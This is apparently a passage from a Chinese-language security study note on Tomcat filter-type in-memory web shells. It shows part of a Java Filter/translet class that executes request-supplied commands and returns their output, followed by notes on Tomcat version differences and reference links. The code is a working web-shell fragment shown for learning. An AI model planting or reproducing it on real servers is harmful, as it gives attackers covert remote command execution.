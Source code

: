 ```java
            InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
            String output = scanner.hasNext() ? scanner.next() : "";
            servletResponse.getWriter().write(output);
            servletResponse.getWriter().flush();
            return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
    }
    @Override
    public void destroy() {}

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
}
```

该方法只支持 Tomcat 7.x 以上，因为 `javax.servlet.DispatcherType` 类是servlet 3 以后引入，而 Tomcat 7以上才支持 Servlet 3

tomcat 7 与 tomcat 8、9 在 FilterDef 和 FilterMap 这两个类所属的包名不太一样
>tomcat 7:
org.apache.catalina.deploy.FilterDef
org.apache.catalina.deploy.FilterMap
tomcat 8、9:
org.apache.tomcat.util.descriptor.web.FilterDef
org.apache.tomcat.util.descriptor.web.FilterMap


这里看到一篇文章：[Java内存马：一种Tomcat全版本获取StandardContext的新方法](https://xz.aliyun.com/t/9914)
在每个Tomcat版本下，都会开一个http-nio-端口-Acceptor的线程，Acceptor是用来接收请求的，这些请求自然会交给后面的Engine->Host->Context->servlet，分析发现成功得到了StandardContext
![](https://img-blog.csdnimg.cn/4db3466c64654270801d75063ad70c75.png)
这里测试发现存在bug，仅学习一个思路

参考：
[Java安全之基于Tomcat实现内存马](https://www.cnblogs.com/nice0e3/p/14622879.html)
[Tomcat动态注册filter](http://bubb1e.com/2021/04/21/Tomcat%E5%8A%A8%E6%80%81%E6%B3%A8%E5%86%8Cfilter/)
[Tomcat 内存马学习(一)：Filter型](http://wjlshare.com/archives/1529)
[java Filter内存马分析 ](https://xz.aliyun.com/t/10888)

### Servlet
Servlet 是服务端的 Java 应用程序，用于处理HTTP请求，做出相应的响应
![](https://img-blog.csdnimg.cn/4d2dbbc575fc432da77807ee7f529707.png)
